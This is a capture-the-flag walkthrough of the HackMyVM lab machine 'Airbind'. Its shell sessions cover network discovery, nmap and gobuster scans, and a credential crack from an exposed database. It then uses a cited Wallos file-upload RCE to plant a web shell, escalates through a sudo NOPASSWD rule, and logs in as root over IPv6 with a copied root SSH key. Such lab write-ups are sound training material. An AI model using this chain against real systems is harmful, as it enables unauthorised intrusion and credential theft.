





# Airbind.
Linux VMTested on VirtualBox created by || cromiphi
⏲️ Release Date // 2024-06-12

✔️ MD5 // 5534ae372b8fb4b4734962cf2e628e28

☠ Root // 10

💀 User // 15

# Network Discovery

```bash
┌──(kali💀kali)-[~]
└─$ fping -ag 192.168.1.1/24 2>/dev/null
192.168.1.1
192.168.1.2
192.168.1.107
192.168.1.108
```
> CTFMACHINE IP IS : 192.168.1.108


# Nmap  - Checking Ports

```bash
┌──(kali💀kali)-[~]
└─$ nmap -sC -sV -Pn -p- 192.168.1.108   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-16 07:35 EDT
Nmap scan report for 192.168.1.108
Host is up (0.00032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.57 ((Ubuntu))
|_http-server-header: Apache/2.4.57 (Ubuntu)
| http-title: Wallos - Subscription Tracker
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.37 seconds

```
# WEB

> Wallos  

# Gobuster 
```bash
                                                                                                                                                                        
┌──(kali💀kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://192.168.1.108/' -x php,txt,html,bak,py 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.108/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,bak,py,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 315] [--> http://192.168.1.108/images/]
/about.php            (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 1924]
/index.php            (Status: 302) [Size: 0] [--> login.php]
/.html                (Status: 403) [Size: 278]
/logos.php            (Status: 200) [Size: 1977]
/stats.php            (Status: 302) [Size: 0] [--> login.php]
/screenshots          (Status: 301) [Size: 320] [--> http://192.168.1.108/screenshots/]
/scripts              (Status: 301) [Size: 316] [--> http://192.168.1.108/scripts/]
/registration.php     (Status: 302) [Size: 0] [--> login.php]
/includes             (Status: 301) [Size: 317] [--> http://192.168.1.108/includes/]
/db                   (Status: 301) [Size: 311] [--> http://192.168.1.108/db/]
/logout.php           (Status: 302) [Size: 0] [--> .]
/styles               (Status: 301) [Size: 315] [--> http://192.168.1.108/styles/]
/settings.php         (Status: 302) [Size: 0] [--> login.php]

```
```
Found a dir named db  , we can find usefull  informations 
```
> http://192.168.1.108/db/wallos.db


# Database 

```
open db file and from user columns browse tables and will this :
```



# John - Crack the hash 


>user:admin , password:admin


# Wallos - Upload RCE 

> https://www.exploit-db.com/exploits/51924

```
After uploading shell , 
find your shell in /images/uploads/logos/yourshellhere.php
curl this and you will get the session 

```




# Road to Ubuntu user 

```bash
www-data@ubuntu:/$ sudo -l 
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL

```
```
we can  run any command of any user  ,so just run a sh or bash from root user 
```
```sh
www-data@ubuntu:/$ sudo -u root /bin/bash
root@ubuntu:/# whoami
root
root@ubuntu:/# hostname
ubuntu
```

# Road to Root 

```
Another ip is live on this machine 
```
```bash
root@ubuntu:~/.ssh# ip route show 
default via 10.0.3.1 dev eth0 proto static 
10.0.3.0/24 dev eth0 proto kernel scope link src 10.0.3.241
```

```shell
nc -v 10.0.3.1 22 

#seems working 
```

# ping6 - capture ipv6

```sh
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/airbind]
└─$ ping6 -I eth0 ff02::1   
ping6: Warning: source address might be selected on device other than: eth0
PING ff02::1 (ff02::1) from :: eth0: 56 data bytes
64 bytes from fe80::1856:cd31:ccfd:5220%eth0: icmp_seq=1 ttl=64 time=0.143 ms
64 bytes from fe80::a00:27ff:fe22:339d%eth0: icmp_seq=1 ttl=64 time=0.594 ms
64 bytes from fe80::83:412c:e5fd:7b05%eth0: icmp_seq=1 ttl=64 time=82.6 ms
64 bytes from fe80::42ed:ff:fe0a:3e45%eth0: icmp_seq=1 ttl=64 time=179 ms

```


```sh
# id_rsa is the same /root/.ssh/id_rsa file and i save it to my local machine and dont forget to chmod it to 600
└─$ ssh -v  -i id_rsa root@fe80::a00:27ff:fe22:339d%eth0: 
root@airbind:~# id
uid=0(root) gid=0(root) groupes=0(root)
```

>END